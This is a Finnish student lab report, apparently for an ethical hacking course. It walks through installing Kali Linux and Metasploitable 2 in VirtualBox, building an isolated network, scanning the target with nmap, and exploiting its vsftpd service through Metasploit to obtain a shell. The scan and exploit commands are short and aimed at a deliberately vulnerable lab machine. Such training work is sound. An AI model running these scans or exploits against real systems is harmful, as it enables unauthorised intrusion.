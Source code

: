 #h3 Lab Kid
## x) Lue/katso ja tiivistä. 
The Metasploit Framework on avoimen lähdekoodin penetraatiotestaus- ja hyökkäystyökalu, joka tarjoaa valikoiman moduuleja ja apuvälineitä haavoittuvuuksien löytämiseen ja hyödyntämiseen. Se mahdollistaa penetraatiotestauksen ja haavoittuvuuskartoituksen suorittamisen.

Yleisesti metasploitnetwork voidaan jakaa kolmeen pääosaan:

Kirjastot(Libraries):
REX, framework-core, framework-base 

Käyttöliittymät(Interfaces):
mfsconsole, armitage

Moduulit(Modules):
Hyökkäykset(Exploits)
Kuorma(Payloads)
Lisämoduulit(Auxiliary modules)
Jälkimoduulit(Post modules)
Koodin kääntäjät(Encoders)
Ei operaatioita(No operations=NOPs)

Nyrkkeilysäkki = Kalin ja Metasploitable 2:n asentaminen sekä kytkeminen samaan verkkoon. Luettu lähde (Riku Mannonen) https://rikumannonen935063021.wordpress.com/

## a) Kalin asennus virtual boxille
Aluksi tarvitsee virtualisointi alusta. Itsellä käytössä on [virtualbox](https://www.virtualbox.org/). Sen jälkeen vain asentakaan kali linux. Kali linuxin ISO tiedon saa ladattua [kali.org](https://www.kali.org/get-kali/#kali-installer-images) sivulta. Sitten kali linux pitää lisätä virtual boxiin ja asentaa käyttövalmiiksi.

Kun kali linuxin ISO on ladattu käynnistin virtual boxin ja painoin "New". Asetin haluaman vertiaalikoneen nimen, sekä tarvittavan typen ja version.

![Alt text](/H3LabKid/h3.a1.png)

Sitten ram muistin sekä prosessorien määrän asettaminen. Määritetään tarvittava levyn koko. Sitten next ja finnish.

![Alt text](/H3LabKid/h3.a2.png)

![Alt text](/H3LabKid/h3.a3.png)

Virtual boxissa settings kohdasta lisäsin storage kohtaan ladatun ISO tiedoston ja sen jälkeen startasin kali linuxin asennusohjelman virtual boxin start kohdasta.

![Alt text](/H3LabKid/h3.a4.png)

Valitsin Graphical install. Valitsin kielen, sijainnin ja näppäimistönkielen.

![Alt text](/H3LabKid/h3.a5.png)

Jätin hostnamen suositukseksi. Domain name ei tarvitse lisätä. Sen jälkeen käyttäjän lisääminen ja continue muutaman kerran ja asennus alkaa. Kun asennus on valmis virtuaalitietokone käynistyy uudelleen ja kysyy käyttäjätietoja. Kalin asennus on valmis.

![Alt text](/H3LabKid/h3.a6.png)

## b) Metasploitable 2 asennus virtual boxille
Metasploitable 2 lataus [täältä](https://sourceforge.net/projects/metasploitable/). Metasploitablen asentaminen pitäisi onnistu vain virtual boxiin lisäämisellä ja käynnistämisellä. Jostain syystä käynnistyksen yhteydessä kohtasin seuraavan ongelman. 

![Alt text](/H3LabKid/h3.b1.png)

[Netistä](https://www.youtube.com/watch?v=aYxfhMrjVhk&ab_channel=RKiLAB), kun selvittää niin tämä ongelmä näyttää ilmenneen ainakin vuoden ajan. Että sain käynnistettyä metasploitablen minun piti käynnistyksen aikana painaa ESC, jotta pääsi grub loaderiin. Sen jälkeen muokkasin Ubuntu 8.04, kernel 2.6.24-16-server kohtaa painamalla 'e'.

![Alt text](/H3LabKid/h3.b2.png)

Sitten muokkasin kohtia root ja kernel lisäämällä 'noapic' niiden perään. Tämän jälkeen painoin 'b' ja metasploitable käynnistyi onnistuneesti.

![Alt text](/H3LabKid/h3.b3.png)
![Alt text](/H3LabKid/h3.b4.png)

## c) Virtuaaliverkko koneiden välille

Muutin virtual boxissa asentamani kalin sekä metasploitablen network asetuksia. Kalin network adapter 1 laitoin NAT network ja adapter 2 laitoin host-only adapter ja valitsin name kohtaan virtuaalisen adapterin joka löytyi jo valmiiksi koneeltani. (Jos yhtään virtuaaliverkkoa ei löydy käy lisäämässä se virtual boxiin "File" > "Tools" > "Network Manager"
Luo uusi "Host-only Network" klikkaamalla "Create" Myös nat verkon lisääminen onnistuu samasta paikasta.)

![Alt text](/H3LabKid/h3.c2.png)
![Alt text](/H3LabKid/h3.c3.png)
![Alt text](/H3LabKid/h3.c4.png)

Tämän jälkeen käynnistin kalin ja testasin pääseekö sillä internettin nat yhteyden kautta. En saanyt yhteyttä internettiin, joten katsoin kalin verkkoasetukset ifconfig komennolla ja huomasin, että eth0:lla ei ollut ip-osoitetta. Joten pyydetään komennolla sellainen.

![Alt text](/H3LabKid/h3.c7.png)
      
    $ sudo dhclient eth0 
![Alt text](/H3LabKid/h3.c8.png)
![Alt text](/H3LabKid/h3.c6.png)

Nyt ainakin nat yhteys pelaa. Kun haluaa kalin internet yhteyden pois päältä käy muuttamassa virtual boxissa virtuaali koneen asetuksia settings > network > enable network adapter ja poistaa ruksin. Kun näin tekee näyttää ifconfig seuraavalta eikä internet yhteys toimi. 

![Alt text](/H3LabKid/h3.c12.png)

Tämän jälkeen testasin pingiä kalin ja metasploitablen välillä näyttää toimivan.

![Alt text](/H3LabKid/h3.c9.png)
![Alt text](/H3LabKid/h3.c10.png)

## d) Etsi Metasploitable porttiskannaamalla
Otin Kalin nat yhteyden aluksi pois eli nyt koneet eivät ole yhteydessä nettiin. Kalin ja metasploitablen välillä toimii virtuaalinen only-host verkko. Testasin, että nettiin ei ole yhteyttä. 

![Alt text](/H3LabKid/h3.d1.png)
![Alt text](/H3LabKid/h3.d2.png)

Loin msfdb tietokannan ja käynnistin kalilla metasploit framworking.

    $ sudo msfdb init
    $ msfconsole

Sitten katsoin hosts komennolla metasploitablen ip:n ja etsin porttiskannerilla sitä ip-osoitetta.

    $ hosts
    $ db_nmap -sn 192.168.56.102

![Alt text](/H3LabKid/h3.d4.png)

Totesin, että kyseinen verkko pitäisi olla olemassa, niin hain sitä netistä sen ip-osoitteella.

![Alt text](/H3LabKid/h3.d5.png)
    
Selvästi olen löytänyt oikein ip-osoiteen eli metasploitablen osoitteen.

## e) Porttiskannaa Metasploitable huolellisesti. Analysoi tulos. 

Tein laajemman skannauksen metasploitableen. -A yleisesti laajempi skannaus (eri versiot, script scanning jne.). Kaikki portit saadaan skannattua -p0- 

    $ db_nmap -A -p0- 192.168.56.102

Metasploitablelta löytyi noin 20 avointa tcp porttia. Porttiskannaus kertoi porteissa pyörivien palveluiden versiot joiden avulla esimerkiksi [exploit DB:stä](https://www.exploit-db.com/) pystyisi hakemaan haavoittuvuuksia kyseisten palveluiden versioille. Lisäksi listasi myös muita saatuja tietoja tcp porttien palveluista. Tämä oli itselle ensimmäinen kerta, kun porttiskannaan jotain muuta kuin localhostia. Lähinni suurin osa tulostuksesta on uutta, joten en osaa sanoa mikä siinä olisi erikoista.

## f) Murtaudu Metasploitablen VsFtpd-palveluun Metasploitilla

Heataan msf:sta löytyykö kohteen vsftpd versiolle haavoittuvuutta. 

    > search vsftpd
![Alt text](/H3LabKid/h3.f1.png)

Löytyi yksi joten valitsin sen ja katsoin mitä asetuksia tälle pystyy asettamaan.

    $ use 0
    $ show options
![Alt text](/H3LabKid/h3.f2.png)

RPORT on automaattisesti määritelty 21, joten lisätään RHOSTS metasploitablen osoite.

    $ set rhosts 192.168.56.102
Tämän jälkeen hyökkäsin palveluun exploit komennolla. Kun shell yhteys on saatu kohteeseen voidaan hakea esimerkikse perus tietoja kohteesta komennoilla: whoami, id ja ifconfig.

![Alt text](/H3LabKid/h3.f3.png)








## Lähteet
https://terokarvinen.com/2023/eettinen-hakkerointi-2023/

https://rikumannonen935063021.wordpress.com/

https://sourceforge.net/projects/metasploitable/

https://www.youtube.com/watch?v=aYxfhMrjVhk&ab_channel=RKiLAB

https://www.geeksforgeeks.org/how-to-install-metasploitable-2-in-virtualbox/


